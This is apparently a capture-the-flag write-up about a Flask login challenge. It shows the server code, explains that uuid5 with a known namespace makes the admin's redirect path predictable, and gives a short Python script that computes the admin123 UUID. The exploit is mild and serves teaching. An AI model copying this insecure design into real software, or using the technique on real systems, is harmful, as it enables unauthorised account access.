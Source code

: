 ![5](./5.png)

Just a simple website that took in the username `admin123` and password to log the user in.

```python
if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')
```

In this part of the flask code, you see that the server accepts the username `admin123` and returns the strings “Stop trying to act like you are the admin!” and for other usernames then there is a page route that redirects to `/{uid}` .

![6](./6.png)

<aside>
💡 The vulnerability lies in the use of UUID version 5 (`uuid.uuid5`). UUID version 5 generates a UUID based on a namespace (`leet` in this case) and a name (`username`). Since both the namespace and the target name (`'admin123'`) are known, an attacker can calculate the correct UUID corresponding to `'admin123'`.

</aside>

Here is a simple script that calculate the UUID of the admin123 user.

```python
import uuid

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
target = 'admin123'

UUID = uuid.uuid5(leet, target)
print(UUID)
```
